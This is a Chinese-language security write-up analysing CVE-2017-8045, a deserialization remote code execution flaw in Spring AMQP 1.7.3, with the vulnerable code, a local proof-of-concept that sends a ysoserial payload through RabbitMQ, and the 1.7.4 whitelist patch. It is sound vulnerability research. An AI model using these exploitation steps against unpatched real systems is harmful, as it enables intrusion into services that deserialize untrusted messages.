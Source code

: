 ## Spring AMQP远程代码执行漏洞(CVE-2017-8045)分析

> 最近国外研究人员先后爆出Spring Data REST远程代码执行漏洞(CVE-2017-8046)和Spring AMQP远程代码执行漏洞(CVE-2017-8045)，CVE-2017-8046关注的人比较多，这里对CVE-2017-8045进行简单分析

### 漏洞原因

在Spring AMQP的Message类中，文件路径为spring-amqp/src/main/java/org/springframework/amqp/core/Message.java。getBodyContentAsString方法中将接收到的消息进行反序列化操作，从而导致任意代码执行。代码如下:

```
private String getBodyContentAsString() {
		if (this.body == null) {
			return null;
		}
		try {
			String contentType = (this.messageProperties != null) ? this.messageProperties.getContentType() : null;
			if (MessageProperties.CONTENT_TYPE_SERIALIZED_OBJECT.equals(contentType)) {
				return SerializationUtils.deserialize(this.body).toString();
			}
	......
	}
```
可以看到这里如果要触发漏洞，其中一个条件是要将请求的ContentType设置为application/x-java-serialized-object。

```
public static final String CONTENT_TYPE_SERIALIZED_OBJECT = "application/x-java-serialized-object";
```

### 代码分析
先分析存在漏洞的代码版本[spring-amqp-1.7.3.RELEASE](https://github.com/spring-projects/spring-amqp)，整个项目代码中共有两处提供反序列化方法的类，分别是SerializerMessageConverter类和SerializationUtils类。

其中SerializerMessageConverter继承了WhiteListDeserializingMessageConverter类并实现了反序列化方法deserialize，代码如下：

```
private Object deserialize(ByteArrayInputStream inputStream) throws IOException {
		try {
			ObjectInputStream objectInputStream = new ConfigurableObjectInputStream(inputStream,
					this.defaultDeserializerClassLoader) {

				@Override
				protected Class<?> resolveClass(ObjectStreamClass classDesc)
						throws IOException, ClassNotFoundException {
					Class<?> clazz = super.resolveClass(classDesc);
					checkWhiteList(clazz);
					return clazz;
				}

			};
			return objectInputStream.readObject();
		}
		catch (ClassNotFoundException ex) {
			throw new NestedIOException("Failed to deserialize object type", ex);
		}
	}
```

上面代码可以看到在deserialize函数中hook了objectInputStream的resolveClass方法并调用WhiteListDeserializingMessageConverter类的checkWhiteList方法对反序列化的类进行白名单检查，如果反序列化的类不在白名单就抛出异常。WhiteListDeserializingMessageConverter类中同时实现了setWhiteListPatterns方法来设置反序列化的白名单。但在1.7.3版本中并未见到任何地方使用该函数进行白名单设置，所以这个白名单控制还是依赖使用到spring-amqp的开发人员自行设置，如果开发人员不设置依旧可能存在反序列化漏洞。

在SerializationUtils类的反序列化方法中则未进行任何安全校验：

```
public static Object deserialize(byte[] bytes) {
		if (bytes == null) {
			return null;
		}
		try {
			return deserialize(new ObjectInputStream(new ByteArrayInputStream(bytes)));
		}
	......
	public static Object deserialize(ObjectInputStream stream) {
		if (stream == null) {
			return null;
		}
		try {
			return stream.readObject();
		}
		......
	}
```
而本次漏洞触发点getBodyContentAsString函数中调用的正是SerializationUtils的deserialize方法。

### 漏洞利用

Message类中toString方法调用了getBodyContentAsString函数，而该漏洞发现者介绍，该方法在代码中许多错误处理及日志记录中会调用到并给出了相关[demo](https://lgtm.com/blog/static/spring_amqp/Application.java)。该程序只允许接收JSON格式消息，此时使用ysoserial生成payload，并将 Content-Type设置为application/x-java-serialized-object，然后发送消息，因为demo程序只允许接收json格式消息，所以会触发异常，从而调用并将消息带入toString函数触发漏洞执行任意代码。

可以使用[spring-amqp-samples](https://github.com/spring-projects/spring-amqp-samples)中的demo，将Application中container方法中添加：

```
listenerAdapter.setMessageConverter(new Jackson2JsonMessageConverter());
```
在测试用例中修改发送消息格式：

```
public void test() throws Exception {

        InputStream in = new FileInputStream("testfile");
        ByteArrayOutputStream bytestream = new ByteArrayOutputStream();

        int ch;
        while((ch = in.read()) != -1) {
            bytestream.write(ch);
        }

        byte[] data = bytestream.toByteArray();
        Message message = MessageBuilder.withBody(data)
                .setContentType(MessageProperties.CONTENT_TYPE_SERIALIZED_OBJECT)
                .setMessageId("8045")
                .setHeader("foo", "test")
                .build();

        rabbitTemplate.convertAndSend(Application.queueName, message);
        receiver.getLatch().await(10000, TimeUnit.MILLISECONDS);
    }
```

安装RabbitMQ，mac下安装使用命令即可：
>brew install rabbitmq

在resources目录创建application.properties文件，内容如下：

```
spring.rabbitmq.host=localhost
spring.rabbitmq.port=5672
spring.rabbitmq.username=guest
spring.rabbitmq.password=guest
spring.rabbitmq.virtualHost=
```
使用ysoserial生成payload文件,在pom依赖中添加commons-collections 3.1，接着调试运行即可进入到tosting函数，并弹出计算器：。
![详细图](http://xianzhi.aliyun.com/forum/attachment/thumb/Mon_1709/4_1250798584134789_633cbb47fad8add.png)
### 补丁分析

在修复版本以1.7.4为例，getBodyContentAsString中反序列化接口改为调用SerializerMessageConverter的fromMessage方法将AMQP消息转换为对象，并使用setWhiteListPatterns函数设置了允许被反序列化类的白名单，只允许反序列化java.util.*和java.lang.*开头的类：

```
static {
		SERIALIZER_MESSAGE_CONVERTER.setWhiteListPatterns(Arrays.asList("java.util.*", "java.lang.*"));
	}
```
详细见https://github.com/spring-projects/spring-amqp/commit/36e55998f6352ba3498be950ccab1d5f4d0ce655

### 参考

* https://lgtm.com/blog/spring_amqp_CVE-2017-8045
* http://www.cnvd.org.cn/webinfo/show/4247
* https://pivotal.io/security/cve-2017-8045
* https://jira.spring.io/browse/AMQP-766
